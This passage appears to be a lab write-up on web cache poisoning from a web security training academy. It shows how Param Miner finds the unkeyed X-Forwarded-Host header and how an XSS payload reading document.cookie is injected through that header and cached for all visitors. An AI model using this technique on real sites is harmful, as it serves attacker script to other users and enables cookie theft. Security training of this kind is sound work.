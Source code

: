 So to search for headers that can modify the response from the server we'll use Param Miner in burp suite
go to repeater, right click on the request > Extenstions > Param Miner > Guess headers, and leave the default settings for search

Then to see the results of the Param Miner scan we go to Extensions tab in burp > select Param Miner > change the tab within Param Miner extension to Output
In the Output we see:
```
Initiating header bruteforce on 0a0a00c303e00a67806407e0000d0078.web-security-academy.net
Identified parameter on 0a0a00c303e00a67806407e0000d0078.web-security-academy.net: x-forwarded-host~%s.%h
```
So it identified that `x-forwarded-host` header modifies the response from the server

It's important to understand that `x-forwarded-host` header is `unkeyed` by the caching server, i.e. it is not included in the `key` that the cache uses when it decides if it already had the response cached.
The key on the caching server usually consists of url and host.

So we can add `X-Forwarded-Host` header to the request, and its value is reflected in the response html
So if we add `X-Forwarded-Host: VVVVV` to the request, we'll get the following response:
```bash
    <body>
        <script type="text/javascript" src="//VVVVV/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner is-solved'>
            ...
```

So we remove the cache buster from the request and add the following header:
```bash
X-Forwarded-Host: "></script><script>alert(document.cookie)</script>
```

And the response is cached by the caching server, but the response also contains our injected js code:
```bash
   <body>
        <script type="text/javascript" src="//"></script><script>alert(document.cookie)</script>/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
            ...
```
So when users visit this page, they'll get the page from the poisoned cache and the js code will be executed

Interesting note: in this particular case the value of `X-Forwarded-Host` header is actually injected into the `<script type="text/javascript" src="/.. ` which means we can change the `src` attribute of the `script` and therefore can make victims to make requests to the server that we control

### Using web cache poisoning to exploit cookie-handling vulnerabilities
Cookies are often used to dynamically generate content in a response. A common example might be a cookie that indicates the user's preferred language, which is then used to load the corresponding version of the page:
```bash
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```
